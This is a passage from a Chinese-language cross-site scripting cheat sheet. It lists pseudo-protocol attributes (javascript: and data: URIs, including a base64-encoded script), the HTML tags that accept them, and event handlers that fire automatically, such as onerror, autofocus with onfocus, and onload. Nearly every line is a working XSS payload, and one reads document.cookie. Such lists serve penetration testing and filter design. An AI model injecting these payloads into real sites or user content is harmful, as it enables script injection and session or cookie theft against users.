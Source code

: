 
### 3.3 伪协议

#### 3.3.1 伪协议属性

	src href data formaction action code

	<applet> <embed> <frame> <iframe> <img> <input type=image> <xml> <a> <link> <area> <table|tr|td background> <bgsound> <audio> <video> <object> <meta refresh> <script> <base> <source>

#### 3.3.2 伪协议使用

	action|formaction|src|href|data|code=javascript:alert(1)
	action|formaction|src|href|data|code="data:text/html,<script>alert(1)</script>"
	action|formaction|src|href|data|code="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="

	href: <a href=xx>
	src: <iframe|img|video|audio|embed src=xx>
	action: <form action=xx><input type=submit>
		<isindex action=xx type=image>
		<input type=image action=xx> //firefox未验证通过
	formaction: <isindex formaction=xx type=image>
		<button formaction=xx> //firefox未验证通过
		<input type="image" formaction=xx> //firefox未验证通过
	data: <object data=xx>
	code: <applet code=xx> //firefox
		<embed  code=xx>

### 3.4 其他

	<table background=javascript:alert(1)></table> // 在Opera 10.5和IE6上有效
	<applet code="javascript:confirm(document.cookie);"> // Firefox有效

### 3.5 自动触发事件

	<img src=1 onerror=alert(1)> <a ..> <video ..> <audio ..>

	<input autofocus onfocus=alert(1)> <select ..> <textarea ..> <keygen ..>
	<input onblur=alert(1) autofocus><input autofocus>
	<body onscroll=alert(1)><br>....<br><input autofocus>
	<a onmousemove=alert(1)>

	<xml onreadystatechange=alert(1)> <style ..> <iframe ..> <script ..>
	<object onerror=alert(1)>
	<object type=image src=valid.gif onreadystatechange=alert(1)></object> <img ..> <input ..> <isindex ..>
	<bgsound onpropertychange=alert(1)>
	<body onload=prompt(1);>
	<body onbeforeactivate=alert(1)>
	<body onactivate=alert(1)>
	<body onfocusin=alert(1)>
	<body onhashchange=alert(1)>

	<svg onload=prompt(1);>
	<marquee onstart=confirm(2)>/
	